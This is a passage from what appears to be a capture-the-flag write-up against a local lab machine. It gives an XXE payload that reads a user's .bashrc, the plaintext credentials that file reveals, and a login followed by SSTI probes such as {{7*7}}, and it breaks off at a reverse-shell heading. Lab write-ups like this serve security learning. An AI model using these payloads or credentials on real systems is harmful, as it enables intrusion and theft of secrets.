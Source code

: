 ## Read the bashrc
Fist I tryed to download a file then execute it with php.
And use curl -O on a revershell script but it's not working too.
https://cxyy4rle.blogspot.com/2019/10/reading-local-files-with-xxe-attacks.html

I willl try this on the user saket, I saw him in the /etc/passwd.
```xml
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/home/saket/.bashrc" >]>
```
![](https://i.imgur.com/86wEsDp.png)
Now I have to decode it:
https://www.base64decode.org/
![](https://i.imgur.com/EWJo9bs.png)
```sh
#Setting Password for running python app
username="admin"
password="Saket!#$%@!!"
```


# Tornado server
I have to login to the website with there's credentials.
http://192.168.0.32:9999/login?next=%2F
I'm using saket because it's not working with admin, and this user is un the /etc/passwd file  and in the password. 
![](https://i.imgur.com/sdWJPGr.png)
I'm logged.
![](https://i.imgur.com/8G8zQTc.png)
There is nothing else on this page.
  
```sh
Tell me your name buddy  
How can i get to know who are you ??
```
He want a name, and he is using the word get, I'm not the best in english but, I think this sentence could be "how can I know who you are?"
So I have to get a name.
# SSTI
https://support.clickmeter.com/hc/en-us/articles/211032666-URL-parameters-How-to-pass-it-to-the-destination-URL
 **www.yoursite.com?myparam={id}**
 Let's try it:
 **http://192.168.0.32:9999/?name={id}**
 ![](https://i.imgur.com/iG2bLi6.png)
 Can I do something with this? 
 **http://192.168.0.32:9999/?name={{7*7}}**
 ![](https://i.imgur.com/lb3fu2v.png)
 This is good, the name of what I'm doing is Server Side Template Injection (SSTI).
 ## Reversshell
 